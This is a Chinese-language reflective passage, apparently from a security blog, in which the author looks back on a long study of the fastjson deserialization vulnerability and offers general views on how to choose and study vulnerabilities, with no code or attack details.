  这篇文章写了很久，前前后后可能有两个月的时间，这段时间我常常在想，对于漏洞的学习应该是怎么样的，什么时候应该浅尝辄止做个复现即可，什么时候该深究其产生原理。就这篇文章来说，是什么支撑我写完它呢？从功利的角度来说，fastjson是前两年比较火影响也比较大的漏洞，它可能会在下一次面试中被问到。但更重要的是，我在研究其原理的过程中学习了很多利用链，了解到了更多姿势，加深了我对于反序列化的理解，而且在调试程序的过程中也提升了java代码能力阅读，这是符合我要提升java安全能力的需求的。虽然fastjson反序列化漏洞可能在今后的实战中越来越少，但是伴随研究漏洞所学习到的其他知识，在今后的漏洞复现、漏洞挖掘对我会有很大帮助。

  清楚了我为什么能够写完这篇文章，我也可以尝试着回答一下漏洞该怎么学了？首先明确一下，它是否符合自己的学习方向，比如目前在搞java安全，就没必要去分析二进制的洞了，渗透要用或者遇到了，拿现成的工具和payload简单复现一下即可；我们还要看一下这个漏洞是否具有启发性，研究它能否对我们挖掘新漏洞有帮助，比如最近很火的Tomcat条件竞争文件上传，条件竞争+文件上传这是以前比较少见的，就比一般的CMS的文件上传有分析价值的多。

  此外，还想记录一点，我终于明白为什么大牛们分析漏洞代码都会做一个调用图了，一部分是便于后面学习的人可以“站在巨人的肩膀上”，我认为还有另一部分原因也是便于自己后续梳理代码。由于前面分析代码的过程中没有做一个调用图或者流程图，后面分析补丁的时候，查找函数和调用关系真是令人痛苦。
